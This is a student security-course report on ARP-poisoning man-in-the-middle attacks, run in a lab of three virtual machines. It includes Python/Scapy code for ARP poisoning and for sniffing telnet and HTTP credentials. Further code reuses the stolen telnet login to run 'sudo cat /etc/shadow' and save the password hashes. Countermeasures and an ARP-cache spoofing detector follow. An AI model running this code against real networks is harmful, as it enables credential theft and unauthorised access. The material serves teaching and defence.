







# Language-based Security

## Project - Man In The Middle Attack

### Introduction

To complete this language-based security course, we were asked to choose a topic of study, and provide fine analysis about it. We decided
to work a well-known vulnerability: The Man In The Middle (MITM) attack. There are a lot of different ways to accomplish this attack and we will cover one of the most 
famous ones, which is called ARP poisoning.

The following report will be organised as follows:
- The goal of this project, i.e what is our objective
- How to perform this kind of attacks, using Python scripting
- How you can prevent it, also by using Python scripting
- A discussion

### Goal of the project

The goal of the project is to demonstrate the vulnerability (insecure communications) of the 
HTTP and telnet protocols and why it is important to use their secure versions SSH and HTTPS. 
To do that, we will create a sniffing / spoofing python script. In the case of telnet, we will analyse the telnet TCP connection packets 
sent from the target to another remote machine to get the credentials. We will then log into the remote machine automaticaly and steal the informations countained in the shadow file. In the case of HTTP, we 
will analyse the HTTP packets, containing credentials, sent from the target to a test website running on our remote server and 
send a spoofed 404 http error packet to the target before logging into his account.

It is a project written in Python that demonstrates application layer protocols’ 
vulnerabilities. Also, we will first take the point of view of an attacker by creating and 
executing the script and then switch to a defender’s point of view by discussing the possible 
countermeasures as we did in the labs.

### The Attacks

#### Initial Configuration

In order to demonstrate how an attacker inside a private network could retrieve important 
informations from an unsecure connection between two hosts, we used three virtual machines (VirtualBox) to simulate connections between a client 
and server and an eavesdropping kali machine. We will have a machine running Ubuntu 16.04 as a client, and another machine running Ubuntu 16.04 as a server.


Client IP is 192.168.0.42/24.



Server IP is 192.168.0.43/24.


The attacker is also connected to the network, and uses Kali Linux 
to perform the attack. Its IP address is 192.168.0.44/24.



#### Language and libraries

- Python, which is an interpreted, high-level, general-purpose programming language.
 Created by Guido van Rossum and first released in 1991, Python's design philosophy emphasizes code readability with its notable use of
 significant whitespaces. It will suits very well to demonstrate things like this since it allows to perform powerful actions using a few lines of code, which makes our programs more readable, in a short amount of time.

- Scapy : Scapy is a powerful Python-based interactive packet manipulation program and library. It is able to forge or decode packets of a 
wide number of protocols, send them on the network, capture them, 
store or read them using pcap files, match requests and replies and much more. It is designed to allow 
fast packet prototyping by using default values that work. We will use this to efficiently craft malicious packets on our network to demonstrate the vulnerability.

#### First case: Telnet connection attack

Our first usecase will be a telnet connection between the client and the server machines. Telnet is not recommended, it's considered as an unsecured 
protocol since it is based on unencrypted communication.
To connect remotely using telnet, just use the command `$telnet <ip>`.
In our case to connect to the remote server, we use `$telnet 192.168.0.43`.

We are then prompted to enter login and password



##### ARP Spoofing

Some useful functions in the program :

```python
def get_mac(IP, interface="eth0"):
    conf.verb = 0
    ans, unans = srp(Ether(dst="ff:ff:ff:ff:ff:ff") / ARP(pdst=IP), timeout=2, iface=interface, inter=0.1)
    for snd, rcv in ans:
        return rcv.sprintf(r"%Ether.src%")
``` 

```python
def poison_arp(target1_mac, target2_mac):
    send(ARP(op=2, pdst=target1_ip, psrc=target2_ip, hwdst=target1_mac))
    send(ARP(op=2, pdst=target2_ip, psrc=target1_ip, hwdst=target2_mac))
``` 

```python
def undo_arp():
    print("\n[*] Restoring Targets...")
    target1_mac = get_mac(target1_ip)
    target2_mac = get_mac(target2_ip)
    send(ARP(op=2, pdst=target2_ip, psrc=target1_ip, hwdst="ff:ff:ff:ff:ff:ff", hwsrc=target1_mac), count=7)
    send(ARP(op=2, pdst=target1_ip, psrc=target2_ip, hwdst="ff:ff:ff:ff:ff:ff", hwsrc=target2_mac), count=7)
    print("[*] Disabling IP Forwarding...")
    os.system("echo 0 > /proc/sys/net/ipv4/ip_forward")
    print("[*] Shutting Down...")
    sys.exit(1)
```

We can see that both the client and the server have their arp cache changed when our python script is running.

One the client we pretend that 192.168.0.43 has the MAC address 08:00:27:d1:98:f9.


One the server we pretend that 192.168.0.42 has the MAC address 08:00:27:d1:98:f9.



##### Packets Sniffing and Credentials Retrieving

Note that this action can be done using Wireshark, but information retrieving might be more general. thus it could take more time to reassemble the login and password since this software displays a lot of information.



However, in our case, we have a script that does the sniffing and the credentials retrieving automaticaly:

First of all, we use the scapy library and its function `sniff` to analyse incoming packets on our network interface:

```python
sniff(iface=target, prn=get_telnet_credentials, filter='dst port 23 and ether src {}'.format(client_mac), store=0,
      count=0)
```

Here we specify that we only want to analyse incoming packets with a destination port of 23 and a source MAC address from our client machine.
Then, each new packet object will be executed as an argument of the `get_telnet_credentials` function:

```python
def get_telnet_credentials(pkt):
    global counter
    global login
    global password

    try:
        pkt.getlayer(Raw).load

    except:
        return

    payload = str(pkt.getlayer(Raw).load)
    if payload != "b'\\r\\x00'" and counter == 1:
        login.append(payload[2])
        return

    elif payload != "b'\\r\\x00'" and counter == 2:
        password.append(payload[2])
        return

    elif payload == "b'\\xff\\xfd\\x01'":
        counter = 1
        return

    elif payload == "b'\\r\\x00'":
        counter = counter + 1
        if counter == 3:
            use_telnet_credentials(login, password)
        else:
            return
    else:
        return
```

Here we check the payload of every packet, to see if it contains a character belonging to the login or password. If a payload contains the string `b'\xff\xfd\x01'`, it means that the following queue of packets will have the characters belonging to the credentials in their payload.
A payload containing the string `b'\r\x00'` indicates the separation between the login and the password, as well as the end of the queue for credentials sending.
When all the characters of the login and password have been gathered, the `use_telnet_credentials` is executed:

```python
def use_telnet_credentials(login, password):
    global target2_ip

    str_login = ""
    str_password = ""

    for i in login:
        str_login = str_login + i
    for j in password:
        str_password = str_password + j

    print("user login: " + str_login + "| user password: " + str_password)

    try:
        tn = telnetlib.Telnet(target2_ip)
        tn.read_until(b"login: ", 2)
        tn.write(str_login.encode('ascii') + b"\n")
        tn.read_until(b"Password: ", 2)
        tn.write(str_password.encode('ascii') + b"\n")
        
    except:
        print("telnet connection with remote server couldn't be established")
        sys.exit(1)
    
    try:
        tn.write(b"sudo cat /etc/shadow\n")
        tn.read_until(b"[sudo] Mot de passe de " + str_login.encode('ascii') + b" : ", 2)
        tn.write(str_password.encode('ascii') + b"\n")
        tn.write(b"exit\n")
        read_data = tn.read_all()
        with open('output_data.txt', 'w') as output:
            output.write(str(read_data))
        print("[*] Ending Telnet Session: Check output_data.txt For Shadow File Content")
        sys.exit(1)
        
    except:
        print("account not in sudoers list: shadow file unaccessible")
        sys.exit(1)
```

This function print the login and password sniffed and also, using the `telnetlib` libary, allows us to automatically connect to the server and steal the content of the shadow file.


#### Second case: HTTP connection attack

To establish this attack, we installed an apache2 web server on the server machine by using the command: `sudo apt install apache2`.
Then, we created the `index.html`, `login.php` and `style.css` (which you can find in our webapp directory) in the directory `/var/www/html/`.
We just need to start the apache2 web server with the command `sudo systemctl start apache2` and the port 80 becomes accessible to the client machine. We don't use an iptable firewall so there is no need to worry about allowing HTTP traffic to reach the port 80.

Here you can see that we used the front page from facebook as a test login page:


##### ARP Spoofing

We use the same functions, as explained previously, to launch an arp poisonning attack on the client and the web server in order to sniff the HTTP traffic.

##### Packets Sniffing and Credentials Retrieving

Here again, it is possible to use Wireshark to analyse the HTTP traffic and get access to the credentials in the POST request:



In our code, we still use the `sniff` function to analyse incoming packets:

```python
sniff(iface=interface, prn=get_http_credentials, filter='dst port 80 and ether src {} and host {}'.format(client_mac, target2_ip), store=0,

count=0)
```

Then every packet object is executed as an argument of the function `get_http_credentials`:

```python
def get_http_credentials(pkt):
    global login
    global password
    global password_field
    global login_field
    full_str_credentials = ""
    
    try:
        pkt.getlayer(Raw).load

    except:
        return

    payload = str(pkt.getlayer(Raw).load)
    if "POST" in payload and "Upgrade-Insecure-Requests" in payload:
        try:
            for i in range(get_index(payload, login_field), len(payload) - 1 ):
                full_str_credentials = full_str_credentials + payload[i]

        except:
            print("credentials not found in POST request")
            return

        for j in range(get_index(full_str_credentials, login_field) + len(login_field), full_str_credentials.index("&")):
            login = login + full_str_credentials[j]

        for k in range(get_index(full_str_credentials, password_field)+ len(password_field), len(full_str_credentials)):
            password = password + full_str_credentials[k]

        print("user login: " + login + " | user password: " + password)
        sys.exit(1)

    else:
        return
```

This function allows us to parse the content of the POST HTTP request in order to get the login and the password.
The function `get_index` returns the index of a character in a string.

We didn't implement yet the spoofing of HTTP 404 error from the web server.

### Countermeasures

1. Network Configuration
    
    - Use static ARP tables: If you are located in a private network that belongs to you, you can set 
    it up so you cannot modify ARP tables. It will ensure that receiving wrong ARP response packets will not allow an attacker to 
    spoof an IP address to perform such an attack.
	
    - Avoid public networks: These attacks are even easier to do when their is a lot of traffic on the network,
    since it might allow to capture a huge amount of data. The attacker has a higher probability to sniff useful packets that
    could allow him to gain important informations on his targets. 

2. Client & Server Configuration

    - Don't use unencrypted channels to communicate over a network. Using secured protocols like SSH over Telnet
    and HTTPS over HTTP highly reduces the risks of this type of attacks to cause damages.
	
	- Use the "antidote" patch for Linux. This allows the machine to first try to communicate to the old MAC address in his arp table before accepting the newly received one.
	
	- Some Unix systems only accept the first arp response received and drop the future ones until the entry times out. 
    
3. Security Prevention

    - Only trust what you know, and be careful of what you're doing on the internet. A lot of big companies 
    (Facebook, AirBnb, ...) have well programmed and secured app. It is now very difficult to gain illegal access or steal informations using these platform.
     Untrusted platform might be more vulnerable to these type of attacks, since they have a less important budget allocated on security.
	 
    - Since data becomes more and more difficult to steal every day, a lot of attacks are now based on phishing, i.e pretending that you're the provider of a service and gaining information directly from the victim, without any suspicion from him.
    
4. Detection-based program

    - Since this type of attack is quite stealthy, because it doesn't affect our system in a significant way, excepted by changing our ARP cache (which is usually not bind to any form of security),
    we can still create a real-time analysis to detect when the ARP cache becomes suspect. We can then alert the user by logging the intrusion into a file, sending an mail or even canceling the ARP modification. 
    Since Windows is the most used OS from the client side, we decided to 
    make a defense system for this platform in particular, as a proof of concept:
    
```python
import os
import re
import time

from pip._vendor.distlib.compat import raw_input


def check_arp_integrity(list):
    if len(list) == len(set(list)):
        return False
    else:
        return True


def anti_spoofing(iface="192.168.0.37"):
    print("Running anti-spoofing program on interface {}".format(iface))
    while 1:
        try:
            mac_add = []
            with os.popen('arp -a -N {}'.format(iface)) as f:
                data = f.read()

            for line in re.findall('([-.0-9]+)\s+([-0-9a-f]{17})\s+(\w+)', data):
                mac = line[1]
                if mac != "ff-ff-ff-ff-ff-ff":
                    mac_add.append(line[1])
            arp_checking = check_arp_integrity(mac_add)
            if arp_checking:
                print("ALERT !!")
                break
            time.sleep(1.5)

        except KeyboardInterrupt:
            print("Stopping program..")
            break


def run_antispoof():
    ip = raw_input("[*] Enter IP [192.168.0.37]: ")
    if ip == "":
        ip = "192.168.0.37"
    anti_spoofing(ip)
```
Thus, when an attacker tries to harm our ARM system, we immediately receive an alert:



It is also possible to use an IDS to filter suspect arp response packets.

### Results and Discussion

Since our code is not completely working, our actual results might be incomplete, but we can already note that perform 
a Man In The Middle attack can be very feasible for a determined attacker, even more with new tools that exists now (Ettercap, Driftnet, ...).
Since this attack relies on that fact that you have to be already connected to the target network, it can be highly infeasible when it comes to 
attacking a remotely located target (if you want to steal important information about a famous company for example), but variations of this attack could 
be useful, i.e. IP spoofing for example.

Also we noticed during this project that python is a really powerful tool for developing the exploit, but also for developing the Proof of Concept of the anti-spoofing system.
Even if our program succeeds in detecting intrusions in real-time, works still remains to have a totally secure countermeasure, since ARP table remains modified by the attack: the program just detect it.

Finally, more work will be needed in order to run code directly on every machine, using regparse python library.

### Conclusion

Nowadays, security on the internet becomes very important, we saw that even in a small private network, it is still possible to leak important information, with few resources needed.
This can become highly critical when it comes to important infrastructures like hospitals, data center of bank companies, etc. Secured protocols have been created to replace older ones that were thought in terms of simplicity/accessibility instead of security. They can counter these attacks, but users can still 
be tricked by other attacks like social engineering, phishing attacks, etc. And if attackers are determined and have enough resources, they can also bruteforce leaked data to extract informations. 

### Sources

1. [How To Do Man In The Middle Attack(MITM) with ARP Spoofing Using Python and Scapy](https://medium.com/@ravisinghmnnit12/how-to-do-man-in-the-middle-attack-mitm-with-arp-spoofing-using-python-and-scapy-441ee577ba1b)
2. [How to Prevent ARP Spoofing Attacks?](https://www.indusface.com/blog/protect-arp-poisoning/#Identify_the_Spoofing_Attack)
2. [Scapy Documentation](https://scapy.readthedocs.io/en/latest/)
2. [ARP poisoning/spoofing: How to detect & prevent it](https://www.comparitech.com/blog/vpn-privacy/arp-poisoning-spoofing-detect-prevent/)

### Appendix

1. [Client Virtual Machine [ login:client | password:client ]](https://drive.google.com/open?id=1jqys0pS7WHDOQ2o-dHbC_ZloOjKGRBb-)
2. [Server Virtual Machine [ login:server | password : server ]](https://drive.google.com/open?id=1yCcbmsN0bCVQOsF0VYAkSZGiv8p4rXXd)

